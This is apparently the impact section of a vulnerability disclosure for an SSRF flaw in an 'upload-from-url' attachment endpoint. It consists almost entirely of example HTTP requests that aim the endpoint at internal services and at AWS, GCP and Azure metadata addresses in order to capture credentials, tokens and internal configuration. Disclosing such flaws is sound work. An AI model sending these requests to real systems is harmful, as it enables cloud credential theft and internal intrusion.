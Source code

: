 ## 🔥 Impact Analysis

### Attack Scenarios

**1. Internal Network Reconnaissance**
```bash
# Probe internal admin interfaces
POST /attachments/-/upload-from-url
{
  "url": "http://127.0.0.1:8090/actuator/health",
  "filename": "internal-health.json"
}

# Scan internal services
POST /attachments/-/upload-from-url  
{
  "url": "http://192.168.1.100:22/",
  "filename": "ssh-banner.txt"
}
```

**2. Cloud Metadata Exfiltration**
```bash
# AWS EC2 metadata
POST /attachments/-/upload-from-url
{
  "url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
  "filename": "aws-creds.txt"
}

# GCP metadata with required headers
POST /attachments/-/upload-from-url
{
  "url": "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token",
  "filename": "gcp-token.json"
}

# Azure instance metadata
POST /attachments/-/upload-from-url
{
  "url": "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-02-01",
  "filename": "azure-userdata.txt" 
}
```

**3. Data Exfiltration via File Storage**
```bash
# Exfiltrate internal configuration files
POST /attachments/-/upload-from-url
{
  "url": "http://internal-config-server/database-config.yaml",
  "filename": "exfiltrated-config.yaml"
}

# Download internal API responses  
POST /attachments/-/upload-from-url
{
  "url": "http://internal-api/sensitive-data.json", 
  "filename": "sensitive-api-response.json"
}
```
